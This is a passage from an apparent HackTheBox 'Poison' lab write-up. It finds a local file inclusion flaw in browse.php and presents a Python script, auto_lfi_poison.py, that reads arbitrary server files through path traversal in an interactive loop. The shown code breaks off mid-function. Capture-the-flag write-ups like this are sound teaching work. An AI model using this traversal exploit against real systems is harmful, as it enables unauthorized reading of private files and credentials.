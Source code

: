 And in this field we find an obvious LFI which we can trigger to enumerate the fileserver

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-20-HackTheBox-Poison/2021-12-20-HackTheBox-Poison%2012:41:03.png)

Now let's easily automate it.

We'll use our skeleton

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-20-HackTheBox-Poison/2021-12-20-HackTheBox-Poison%2012:46:38.png)

auto_lfi_poison.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto LFI - Poison HackTheBox

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
def readFileGET(rhost):
    url = "http://%s:80/browse.php?file=../../../../../../../" %rhost
    print("[+] Type exit to exit ! [+]")
    prefix = "Reading file: "
    file = ""
    while True:
        if file != "exit":
            file = input(prefix)
            headers = {"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"}
            url_read = url + file
            output = r.get(url_read,headers=headers,proxies=proxies)
            url_read = url
            if "Warning" in output.text:
                print("[+] File does NOT EXIST !!! Or I can't read it !!! [+]")
```